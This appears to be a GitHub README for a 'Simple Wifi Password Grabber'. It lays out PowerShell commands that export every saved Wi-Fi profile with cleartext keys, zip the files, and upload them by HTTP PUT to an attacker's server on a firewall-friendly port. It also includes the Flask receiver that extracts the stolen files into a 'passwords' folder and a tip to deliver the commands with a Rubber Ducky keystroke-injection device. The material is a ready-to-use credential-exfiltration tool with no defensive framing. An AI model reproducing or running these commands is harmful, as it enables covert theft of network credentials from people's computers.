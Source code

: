 ### Simple Wifi Password Grabber ###
#### ↓ PowerShell command to get all saved passwords in system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this exports all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send file via Http PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain or IP]:[port]/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in firewall, for example `80`._
### Run this code on server: ###
This code handle the zipfile and extract `XML` files into `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Duck for better usage
